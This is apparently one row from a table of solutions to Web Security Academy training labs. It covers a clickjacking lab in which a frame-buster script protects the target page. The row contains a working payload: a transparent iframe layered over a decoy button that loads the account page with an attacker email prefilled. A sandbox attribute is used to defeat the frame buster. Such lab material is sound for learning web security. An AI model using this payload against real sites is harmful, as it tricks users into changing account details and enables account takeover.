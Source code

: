|56    |Clickjacking with a frame buster script                                                                                  |<style>     iframe {         position:relative;         width:$width_value;         height: $height_value;         opacity: $opacity;         z-index: 2;     }     div {         position:absolute;         top:$top_value;         left:$side_value;         z-index: 1;     } </style> <div>Test me</div> <iframe sandbox="allow-forms" src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |sandbox=”allow-forms”  This neutralizes the framebuster script                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |Apprentice, Clickjacking                    |